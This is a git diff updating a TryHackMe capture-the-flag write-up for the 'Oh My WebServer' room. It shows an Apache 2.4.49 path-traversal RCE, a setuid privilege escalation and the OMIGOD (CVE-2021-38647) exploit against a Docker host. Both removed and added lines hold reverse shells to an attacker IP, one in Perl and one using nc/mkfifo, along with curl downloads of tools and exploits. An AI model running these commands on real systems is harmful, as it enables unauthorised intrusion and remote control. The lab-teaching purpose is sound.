

Update ohmy

diff --git a/_posts/2022-03-05-ohmyweb.md b/_posts/2022-03-05-ohmyweb.md
@@ -2,7 +2,7 @@
 layout: post
 title:  "Oh My WebServer"
 categories: [tryhackme]
-tags: [linux]
+tags: [linux,omigod,container,capabilities,cve]
 ---
 
 
@@ -12,7 +12,7 @@ You can find this machine here : `https://tryhackme.com/room/ohmyweb`
 
 ```bash
 ┌──(kali㉿Zeus)-[~]
-└─$ sudo nmap -Pn -sV 10.10.138.13
+└─$ sudo nmap -Pn -sV ohmyweb.thm
 
 PORT   STATE SERVICE VERSION
 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
@@ -23,13 +23,26 @@ PORT   STATE SERVICE VERSION
 
 ```bash
 ┌──(kali㉿Zeus)-[~]
-└─$ dirb http://10.10.138.13/                                            
+└─$  dirb http://ohmyweb.thm/
 
----- Scanning URL: http://10.10.138.13/ ----
-+ http://10.10.138.13/cgi-bin/ (CODE:403|SIZE:199)   
+URL_BASE: http://ohmyweb.thm/
+WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
+
+-----------------
+
+GENERATED WORDS: 4612                                                          
+
+---- Scanning URL: http://ohmyweb.thm/ ----
+==> DIRECTORY: http://ohmyweb.thm/
++ http://ohmyweb.thm/cgi-bin/ (CODE:403|SIZE:199
 ```
 
+### Wappalyzer - Port 80
+
+![image]( /assets/img/ohmy/0.PNG)
+
 ### Searching
+
 
 Search : `Apache httpd 2.4.49 exploit`
 Result : `https://www.exploit-db.com/exploits/50383`
@@ -53,9 +66,10 @@ curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $3" "$host/cgi-bin
 
 ```bash
 ┌──(kali㉿Zeus)-[~/Desktop]
-└─$ ./ohmyweb.sh targets.txt /bin/sh whoami
-10.10.138.13
+└─$ ./ohmyweb.sh targets.txt /bin/sh "whoami;id"
+ohmyweb.thm
 daemon
+uid=1(daemon) gid=1(daemon) groups=1(daemon)
 ```
 
 ![image]( /assets/img/ohmy/1.PNG)
@@ -86,15 +100,14 @@ curl 'http://ohmyweb.thm/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/
 
 ```bash
 python3 -c 'import pty; pty.spawn("/bin/bash")'
-Control + z
+CTRL + Z
 stty raw -echo;fg
 ENTER
-export HOME=/home
 export TERM=xterm
+export HOME=/home
 ```
 
 ### LinPeas 
-
 
 ![image]( /assets/img/ohmy/4.PNG)
 
@@ -124,67 +137,101 @@ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
 
 ![image]( /assets/img/ohmy/8.PNG)
 
-### Shell to Meterpreter
 
-- my vm
+### Host Discovery
 
-```bash
-systemctl start postgresql
-```
+- awk
 
 ```bash
-msfconsole -x "use exploit/multi/handler;set PAYLOAD cmd/unix/reverse_perl;set LHOST 10.18.45.56;set LPORT 5555;exploit"
+awk 'function hextodec(str,ret,n,i,k,c){
+    ret = 0
+    n = length(str)
+    for (i = 1; i <= n; i++) {
+        c = tolower(substr(str, i, 1))
+        k = index("123456789abcdef", c)
+        ret = ret * 16 + k
+    }
+    return ret
+}
+function getIP(str,ret){
+    ret=hextodec(substr(str,index(str,":")-2,2)); 
+    for (i=5; i>0; i-=2) {
+        ret = ret"."hextodec(substr(str,i,2))
+    }
+    ret = ret":"hextodec(substr(str,index(str,":")+1,4))
+    return ret
+} 
+NR > 1 {{if(NR==2)print "Local - Remote";local=getIP($2);remote=getIP($3)}{print local" - "remote}}' /proc/net/tcp 
 ```
 
-- target
+![image]( /assets/img/ohmy/13.PNG)
+
+- arp
 
 ```bash
-perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"10.18.45.56:5555");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
+root@4a70924bafa0:~# arp -a
+ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1) at 02:42:1e:60:bf:4a [ether] on eth0
 ```
 
-- my vm after session 1 opened
+![image]( /assets/img/ohmy/14.PNG)
+
+
+### Port Scan
+
+Binary here : `https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap`
 
 ```bash
-background
-use post/multi/manage/shell_to_meterpreter
-set SESSION 1
-exploit
-sessions 2
+curl 10.18.45.56/nmap -o nmap
 ```
 
-![image]( /assets/img/ohmy/6.PNG)
+![image]( /assets/img/ohmy/15.PNG)
 
-- my vm after meterpreter 
+- Starting the Scan
 
 ```bash
-run autoroute -s 172.17.0.0/16
+root@4a70924bafa0:~# ./nmap 172.17.0.1 -p- --min-rate 4000
+
+PORT     STATE  SERVICE
+22/tcp   open   ssh
+80/tcp   open   http
+5985/tcp closed unknown
+5986/tcp open   unknown
 ```
 
-![image]( /assets/img/ohmy/7.PNG)
+![image]( /assets/img/ohmy/16.PNG)
 
-### MSF -  Port Scan
+### Identify The Service (Port 5986)
+
+![image]( /assets/img/ohmy/17.PNG)
+
+![image]( /assets/img/ohmy/18.PNG)
+
+### OMIGOD Unauthenticated RCE
+
+- Source : `https://github.com/AlteredSecurity/CVE-2021-38647`
+- Source : `https://www.wiz.io/blog/omigod-critical-vulnerabilities-in-omi-azure/`
 
 ```bash
-use auxiliary/scanner/portscan/tcp
-set RHOSTS 172.17.0.0/16
-set THREADS 50
-set PORTS 80-9000
-run
-```
-
-![image]( /assets/img/ohmy/10.PNG)
-
-### Port Forwarding
-
-```txt
-portfwd add -l <local port (yours)> -p <victim port we want to access> -r <victim IP address>
+wget https://raw.githubusercontent.com/AlteredSecurity/CVE-2021-38647/main/CVE-2021-38647.py
+python3 -m http.server 80
 ```
 
 ```bash
-portfwd add -l 8001  -p 80 -r 172.17.0.2
+curl 10.18.45.56/CVE-2021-38647.py -o exploit.py
 ```
 
-![image]( /assets/img/ohmy/11.PNG)
+![image]( /assets/img/ohmy/19.PNG)
 
-![image]( /assets/img/ohmy/12.PNG)
+```bash
+python3 exploit.py -t 172.17.0.1 -p 5986 -c 'id'
+```
 
+![image]( /assets/img/ohmy/20.PNG)
+
+### Reverse Shell - Root Owned
+
+```bash
+python3 exploit.py -t 172.17.0.1 -p 5986 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.18.45.56 6666 >/tmp/f'
+```
+
+![image]( /assets/img/ohmy/21.PNG)
